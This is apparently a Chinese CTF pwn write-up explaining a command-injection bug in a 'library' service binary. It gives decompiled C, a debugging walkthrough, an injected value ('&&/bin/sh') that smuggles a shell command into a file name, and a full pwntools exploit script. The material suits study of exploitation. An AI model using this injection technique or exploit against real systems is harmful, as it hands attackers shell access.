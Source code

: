 ```yaml
---
layout: post
title:  "2018-03-03-library"
date:   2019-01-02 13:01:05 +0000
categories: jekyll update
---
```


# 0x00 前言

这种命令行注入在pwn中出现的比较少，所以记录分享一下。

# 0x01 命令行注入介绍
熟悉web安全的话就知道，如果对特殊字符过滤不当，会引发sql注入或者xss等安全漏洞。其中，命令行注入较为严重，因为可以直接拿到漏洞程序当前权限的OSshell。
然而，命令行注入不仅在web中会出现，在C语言程序中，也会出现命令行注入的漏洞。比方说这道pwn题，就是调用system时，没有对输入数据进行\0截断以及对特殊字符处理不当而导致的。
命令行注入相对于其他二进制漏洞相比利用比较简单，比方说这道题，举个例子：
```c
sprintf(&s, "du -sh lib/'%s'", v6);
system(&s);
```
其中设计初衷，v6应当是一个合法的文件名。但是如果攻击者恶意操控v6，比方说，让v6为：'&&/bin/sh'
进行sprintf拼接后，system所执行的命令为：
```bash
du -sh lib/''&&/bin/sh''
```
这里有两个linux命令行的知识：
1. &&，这是拼接两个命令，如果我们执行 command1&&command2，那么等价于先执行command1在执行command2。其中命令跟&&之间不必加空格。
2. 在命令后不加空格的''（两个单引号）会被忽略，比如ls''等价于ls，/bin/sh''等价于/bin/sh，du -sh lib/''等价于du -sh lib/（即，实际传进去的参数是lib/不是lib/''）

所以，执行上面的命令，相当于先执行了
```bash
du -sh lib/
```
再执行
```bash
/bin/sh
```
所以，可以getshell。

# 0x02 题目

题目所给的是一个library的服务，可以上传book，查看books，清除books。其中，book存放在lib/文件夹中。

# 0x03 漏洞点

```c
char *list_books()
{
  FILE *v0; // eax
  char *result; // eax
  char s; // [esp+4h] [ebp-C14h]
  char ptr; // [esp+804h] [ebp-414h]
  char *v4; // [esp+C04h] [ebp-14h]
  FILE *stream; // [esp+C08h] [ebp-10h]
  char *v6; // [esp+C0Ch] [ebp-Ch]

  v0 = popen("ls lib/", "r");
  stream = v0;
  result = (char *)fread(&ptr, 1u, 0x400u, v0);
  v4 = result;
  if ( result )
  {
    v6 = strtok(&ptr, delims);
    result = (char *)send("Book list:\nSize\tE-book\n");
    while ( v6 )
    {
      sprintf(&s, "du -sh lib/'%s'", v6);
      //很明显，这里存在可能的命令行注入
      system(&s);
      fflush(stdout);
      result = strtok(0, delims);
      v6 = result;
    }
  }
  return result;
```

其中list_books代码如上，v6来自fread从popen中的返回结果。他本来想做的是输出每个文件的大小，但是fread后没有用\0截断。所以调用strtok时，可能会读到fread后面的垃圾数据（当然如果可以操控的话就不是垃圾数据了）

sprintf的栈溢出会比较难利用，因为&s比较大，有0x800，而v6是从&ptr里面strtok出来的，而&ptr更小，只有0x400。所以应该没法很好的利用。

# 0x04 操控垃圾数据

那么，我们怎么去操控&ptr中的垃圾数据呢？这个时候看看另外一个函数

```c
int upload_book()
{
  char *v1; // eax
  int v2; // eax
  char buf[1024]; // [esp+Ch] [ebp-42Ch]
  char s[20]; // [esp+40Ch] [ebp-2Ch]
  FILE *stream; // [esp+420h] [ebp-18h]
  char *dest; // [esp+424h] [ebp-14h]
  size_t v7; // [esp+428h] [ebp-10h]
  int v8; // [esp+42Ch] [ebp-Ch]

  if ( book_counter > 10 )
    return send("too many books\n");
  send("Book filename: ");
  v8 = __isoc99_scanf("%20s", s);
  if ( v8 != 1 )
    return send("Wrong title format\n");
  v7 = strlen(s);
  if ( strcmp(&s[v7 - 3], ".bk") )
    return send("The name needs to end with '.bk'\n");
  send("e-book contents: \n");
  read(0, buf, 0x400u);
  if ( *(_DWORD *)buf != 'BBBB' )
    return send("Not an e-book\naborting...\n");
  v1 = (char *)malloc(0x18u);
  dest = v1;
  *(_DWORD *)v1 = 0x2F62696C;
  v1[4] = 0;
  strcat(dest, s);
  stream = fopen(dest, "w");
  if ( !stream )
    return send("Bad book filename\n");
  v2 = book_counter++;
  books[v2] = dest;
  fwrite(buf, 1u, 0x400u, stream);
  return fclose(stream);
}
```

其中，这在栈中也会分配0x400个字节，并且我们可以写入。
并且，调用完这个函数之后，清除栈空间时，只是简单地add esp,xxx，并不会清空其中数据。然后，再调用存在命令行注入的函数并分配栈空间时，也只是单纯地sub esp,xxx，也不会清空数据。在C语言中，如果此时对不赋值的局部变量直接访问的话，是UB行为。但是，从二进制安全的角度看的话，便是可利用的点了。其中这道题，本身就是一个局部字符串读取后未截断而造成的UB，然而我们便可以利用这个。

那么来试试： 
![图片描述](/images/742286_B8YD2W3Y8ZJNJ9K.png)


很明显，BBBB123456789123456789123456789123456789AAAA的后面89123456789AAAA被拼接到du -sh lib/'%s'中了
动态调试看一下的话

第一次在system停下
 ![图片描述](/images/742286_KEV75FKDRYYKT77.png)

第二次在system停下
 ![图片描述](/images/742286_TTMMX45NMT3RYGD.png)


所以很明显，只要把89123456789AAAA改成

```bash
'&&/bin/sh'\x00
```

就可以getshell了。如前面所说。
其中，\x00是我们自己手动截断，不然strtok还会继续往后读。

所以最后exp

```python
#BBBB1234567891234567891234567'&&/bin/sh'
g_local = True

from pwn import *

if g_local:
	sh=process("./library")
else:
	sh=remote("xxxx",1234)


def upload_book(filename, content):
	filename += ".bk"
	sh.send("1\n")
	sh.recvuntil("Book filename: ")
	print filename
	sh.send(filename + "\n")
	sh.recvuntil("e-book contents: \n")
	sh.send(content)
	sh.recvuntil("Enter command: ")

def list_books_and_shell():
	sh.send("2\n")
	sh.interactive()

upload_book("1", "BBBB1234567891234567891234567\'&&/bin/sh\'\x00")
list_books_and_shell()
```

# 0x05 后言

还有一点要注意，pwndbg好像会默认在fork时跟子进程，所以要在~/.gdbinit的最后面(加载pwndbg之后)加上set follow-fork-mode parent。并且，&&与命令之间不能加空格。因为他strtok是通过空格和换行分断字符串的，加了空格我们的payload就会被strtok分割开。
